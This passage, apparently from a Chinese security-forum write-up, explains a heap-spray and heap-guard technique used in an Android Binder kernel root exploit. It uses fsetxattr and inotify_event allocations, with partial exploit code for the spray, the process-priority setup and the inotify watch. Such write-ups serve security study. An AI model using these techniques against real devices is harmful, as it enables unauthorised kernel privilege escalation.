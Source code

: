 如果仅仅循环调用 fsetxattr，你会发现自己的堆喷地址总是一样的，因为分配出来就被立刻 free 了。所以采用一个申请后并不会马上释放的结构体来占住刚刚被 free 的内存。我们使用的结构体是 inotify_event_info。

![](https://bbs.pediy.com/upload/attach/202001/93_WRYAKTW7G8W8CEF.jpg)  

图片 5 引用于《D2T2 - Binder - The Bridge to Root - Hongli Han & Mingjian Zhou》  

```
void heapGuard()
{
    fsetxattr(fd_guard_heap, "user.g", guardBuffer, 1000, 0);
}

```

fsetxattr 由于改变了文件的扩展属性，会触发文件监控，调用到 inotify_handle_event，调用 kmalloc 分配 event。

由于 fsetxattr 调用 kmalloc 分配的 kvalue 大小是 96 个字节，inotify_handle_event 调用 kmalloc 分配的 event 大小这里设定为 65 个字节 (文件名为 fffdfffdfffdfffd)，目的是占位刚刚被 setxattr 释放的内存，且分配的 event 不会被立刻释放，也就保护了 kvalue 的内容。

此时如果再次调用 fsetxattr（之前已经调用了一次 fsetxattr 和 inotify_handle_event）分配内存 kvalue，由于刚刚被释放掉的 kvalue 已经被 event 占用了，此时会分配新的空间，这样就为堆喷占位提供了条件。这里注意要巧妙设置 event 的长度，不要破坏 fsetxattr 分配 kvalue 的 64 和 88 偏移，因为这里保存的信息，在 copy_from_user 时会用到。

![](https://bbs.pediy.com/upload/attach/202001/93_MJ4GSY3K9ZDG3KU.jpg)  

图片 6 引用于《D2T2 - Binder - The Bridge to Root - Hongli Han & Mingjian Zhou》  

途中 Sate area 就是 fsetxattr 分配 kvalue 的 64 和 88 偏移的内容，此部分内容不要被破坏哦。

3、设置 client 进程优先级大于 server 进程优先级，目的是让 client 进程抢占 server 进程。

```
int main()
{
    createAllocThread();
    nice(-20);
    MediaPlayerBase* mediaPlayerBase = new MediaPlayerBase();
    mediaPlayer = mediaPlayerBase->creatMediaPlayer();
        .....
}

```

是在启动了分配线程后，才设置的优先级，这是因为分配线程的优先级会影响 server 进程的优先级。

4、堆喷保护细节

```
void begin_watch()
{
        watch_fd = inotify_init1(IN_NONBLOCK);
        if (watch_fd == -1) {
                printf("[-] inotify_init1 failed\n");
                return;
        }
 
        watch_wd = inotify_add_watch(watch_fd, "test_dir",
                                 IN_ALL_EVENTS);
        if (watch_wd == -1) {
                printf("[-] Cannot watch\n");
                return;
        }
}
 
void stop_watch()
{
    inotify_rm_watch(watch_fd, watch_wd);
    if (watch_fd != 1)
    {
```